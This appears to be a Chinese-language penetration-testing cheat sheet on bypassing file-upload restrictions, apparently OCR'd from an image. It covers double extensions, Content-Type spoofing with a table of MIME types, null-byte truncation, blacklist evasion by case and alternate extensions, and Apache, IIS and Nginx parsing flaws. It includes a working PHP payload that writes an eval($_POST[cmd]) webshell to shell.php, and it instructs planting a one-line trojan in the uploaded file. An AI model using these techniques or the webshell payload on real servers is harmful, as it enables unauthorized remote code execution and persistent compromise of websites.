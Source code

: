  

如果遇到上传一个php文件上传后自动修改成为gif或者其他格式的后缀，则可以考虑使用双重后缀，即为1.pphphp


MIME类型验证(文件类型验证)
直接修改Content-Type：允许的MIME类型
修改文件名为可执行文件，有时候需要配合修改multipart/form-data的大小写
常见的MIME类型：
超文本标记语言文本 .html text/html 　　
xml文档 .xml text/xml
普通文本 .txt text/plain 　　
RTF文本 .rtf application/rtf 　　
PDF文档 .pdf application/pdf 　　
Microsoft Word文件 .word application/msword 　　
PNG图像 .png image/png 　　
GIF图形 .gif image/gif 　　
JPEG图形 .jpeg,.jpg image/jpeg 　　
au声音文件 .au audio/basic 　　
MIDI音乐文件 mid,.midi audio/midi,audio/x-midi 　　
RealAudio音乐文件 .ra, .ram audio/x-pn-realaudio 　　
MPEG文件 .mpg,.mpeg video/mpeg 　　
AVI文件 .avi video/x-msvideo 　　
GZIP文件 .gz application/x-gzip 　　
TAR文件 .tar application/x-tar 　　
任意的二进制数据 application/octet-stream

 


目录路利用
解析是从前往后解析，判断是从后往前判断。
零零截断一般步骤为：
1.新建一个名为test.php%00.jpg或者test.php.jpg

2.在里面写入一句话木马

3.burp抓包改%00或者.为url编码
iis按照路径解析的是：
比如我们上传一个名为123.asp/123.jpg文件
则，123.asp/123.jpg会被直接解析成123.asp
0x02_4 文件扩展名利用
黑名单检测
• 文件大小写绕过
比如像Asp，Php之类的文件名绕过黑名单检测
• 名单列表绕过
利用黑名单里没有的名单进行攻击，比如黑名单里没有asa，cer，php3，php5之类的
• 特殊文件名绕过
修改文件名为test.asp.或者test.asp_（下划线为空格），绕过验证之后，windows会自动去掉点和空格，linux和unix下不支持
• 0x00截断绕过
• 双扩展名绕过
apache解析式从后往前，所以如果上传一个test.php.123,不认识.123的文件，所以会往前解析，直到遇到能解析的


Apache的扩展名顺序解析漏洞
命名为test.php.xxx（集成环境里php3都会按照php来解析）
IIS的asp解析漏洞
• IIS6.0
• 1.命名为test.asp;.jpg
• 2.命名为test.asp/123.jpg(test.asp是一个目录)
• 3.命名为test.asa,test.cer.test.cdx
• IIS7.5/7.0
• 在默认Fast-CGI开启状况下,上传一个名字为test.jpg，内容为
• <?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
• 的文件，然后访问test.jpg/.php,在这个目录下就会生成一句话木马 shell.php
Nginx的%00解析漏洞
命名为test.jpg%00.php